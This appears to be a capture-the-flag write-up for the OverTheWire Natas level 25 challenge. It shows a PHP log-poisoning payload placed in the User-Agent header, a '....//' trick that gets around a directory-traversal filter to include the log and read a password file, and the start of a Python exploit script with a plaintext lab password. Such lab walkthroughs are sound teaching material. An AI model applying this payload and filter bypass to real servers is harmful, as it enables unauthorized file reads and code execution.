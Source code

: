 At first look, seems that `lang` parameter could be the vehicle of the attack. According to the source code, some checks are performed on it . Firstly, we're not allowed to include `natas_webpass` string, so direct access to `/etc/natas_webpass/natas26` file is not feasible.

at `logRequest()` it storing the request , in the sever inside this location `/var/www/natas/natas25/logs/natas25_" . session_id() .".log` ,
`$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];` user agent header has been for this
The value of session_id() is controlled by us as it’s the value of PHPSESSID The User-Agent field is used to read the password file and the contents are put into `/var/www/natas/natas25/logs/natas25" . session_id() .".log` . You can create your own value of PHPSESSID, however, make sure to use the same value while creating the path.

Okay

```
headers = { "User-Agent" : "<?php echo file_get_contents('/etc/natas_webpass/natas26'); ?>" }
```

Inside User-Agent we give the payload read the password

Let Try File Inclusion but

```php
 if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
```

These Line replace `lang` parameter with `../` so we cannot use that sting , let use technique to bypass that check

```
"../" was repalced ""

Let try bracket string will replace with empty but still ../
..././ -> . (../) ./ -> ../

or

....// ->  .. (../) / -> ../
i am using second , but both are valid
```

we traversal , that log directory , get response from that header as will injected payload as response

```py
log_file = "....//....//....//....//....//var/www/natas/natas25/logs/natas25_%s.log"%session.cookies['PHPSESSID']
```

```json
headers = { "User-Agent" : "<?php echo file_get_contents('/etc/natas_webpass/natas26'); ?>" }
```

Let write full python script

```py
import requests
import re

username = "natas25"
passsowrd = "O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx"
url = "http://%s.natas.labs.overthewire.org/"%username

session = requests.Session()
response = session.get(url,auth=(username,passsowrd))

# .. ../ / -> ....//
headers = { "User-Agent" : "<?php echo file_get_contents('/etc/natas_webpass/natas26'); ?>" }

```